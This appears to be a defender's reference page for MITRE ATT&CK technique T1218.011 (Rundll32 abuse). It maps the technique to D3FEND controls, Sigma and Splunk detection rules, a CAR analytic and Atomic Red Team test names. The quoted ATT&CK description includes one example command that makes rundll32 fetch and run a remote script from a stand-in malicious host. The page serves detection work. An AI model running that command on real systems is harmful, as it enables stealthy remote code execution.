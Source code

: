 # T1218.011: Rundll32
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/011)**
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll)</blockquote>
## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:**6

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [File Analysis](https://d3fend.mitre.org/techniques/d3f:FileAnalysis)
* [Process Spawn Analysis](https://d3fend.mitre.org/techniques/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/techniques/d3f:SystemCallAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/techniques/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/techniques/d3f:SystemCallFiltering)
* [Decoy File](https://d3fend.mitre.org/techniques/d3f:DecoyFile)

## Technical Controls (Detection Rules)
### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 159

**ATT&CK-mapped resources for this (sub)technique:**1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [car/analytics/CAR-2014-03-006.yaml](https://github.com/mitre-attack/car/blob/master/analytics/CAR-2014-03-006.yaml)

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 2330

**ATT&CK-mapped resources for this (sub)technique:**27

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/SigmaHQ/sigma/tree/master/rules):

* [sigma/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml)
* [sigma/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml)
* [sigma/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_crime_fireball.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_crime_fireball.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml)

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped rules:** 1393

**ATT&CK-mapped resources for this (sub)technique:**16

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/splunk/security_content/tree/develop/detections):

* [security_content/detections/deprecated/suspicious_rundll32_rename.yml](https://github.com/splunk/security_content/blob/develop/detections/deprecated/suspicious_rundll32_rename.yml)
* [security_content/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml)
* [security_content/detections/endpoint/rundll_loading_dll_by_ordinal.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll_loading_dll_by_ordinal.yml)
* [security_content/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml)
* [security_content/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml)
* [security_content/detections/endpoint/rundll32_control_rundll_hunt.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_hunt.yml)
* [security_content/detections/endpoint/rundll32_lockworkstation.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_lockworkstation.yml)
* [security_content/detections/endpoint/rundll32_process_creating_exe_dll_files.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_process_creating_exe_dll_files.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml)
* [security_content/detections/endpoint/suspicious_rundll32_dllregisterserver.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_dllregisterserver.yml)
* [security_content/detections/endpoint/rundll32_dnsquery.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_dnsquery.yml)
* [security_content/detections/endpoint/suspicious_rundll32_plugininit.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_plugininit.yml)
* [security_content/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml)
* [security_content/detections/endpoint/suspicious_rundll32_startw.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_startw.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml)


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped tests:** 1161

**ATT&CK-mapped resources for this (sub)technique:**11

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.011/T1218.011.yaml):

* Rundll32 execute JavaScript Remote Payload With GetObject
* Rundll32 execute VBscript command
* Rundll32 advpack.dll Execution
* Rundll32 ieadvpack.dll Execution
* Rundll32 syssetup.dll Execution
* Rundll32 setupapi.dll Execution
* Execution of HTA and VBS Files using Rundll32 and URL.dll
* Launches an executable using Rundll32 and pcwutl.dll
* Execution of non-dll using rundll32.exe
* Rundll32 with Ordinal Value
* Rundll32 with Control_RunDLL

### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** April 25, 2022

**Total ATT&CK-mapped tests:** 70

**ATT&CK-mapped resources for this (sub)technique:**1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [car/analytics/CAR-2014-03-006.yaml](https://github.com/mitre-attack/car/blob/master/analytics/CAR-2014-03-006.yaml): 1 <code>unit_tests</code>

